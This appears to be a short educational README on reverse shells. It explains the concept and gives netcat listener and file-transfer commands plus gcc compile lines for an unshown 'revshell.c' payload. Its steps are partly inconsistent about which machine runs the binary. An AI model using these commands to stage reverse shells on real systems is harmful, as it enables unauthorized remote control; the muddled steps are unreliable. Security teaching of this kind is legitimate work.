 ## What is Reverse Shell??

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

The reverse shell can take the advantage of common outbound ports such as port `80, 443, 8080` and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

### **There are three steps to get a reverse shell.**  
---
-  An attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
- Then attacker setup listener on his own machine.  
- Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

***In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.***

# Listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

Example: `nc -l -v -p 4444`

In this case `-l` to listen, `-v` for verbose and `-p` for port 4444 on every interface. You can add -n for numeric only IP addresses, but not DNS.

For Reverse Shell Cheat Sheet [Click Here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### **Lets Jump into our code....**

To compile: `gcc revshell.c -o revshell -w`

For 32-bit linux: `gcc revshell.c -o revshell -m32 -w`

Lets go to transfer some file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation.

On victim machine: `nc -lvp 4444 > revshell`

On attacker machine: `nc <your_ip> 4444 -w 3 < revshell`

On the attacker machine make the `revshell` as executable using `chmod +x revshell` and run the binary by `./revshell`.

# Mitigation 


There is no way to completely block reverse shells. Unless you carefully using reverse shells for remote administration any reverse shells connections are likely to be malicious... Hope this may help you.  Thanks for your time.

Happy Learning ✨✨ Have a great day.
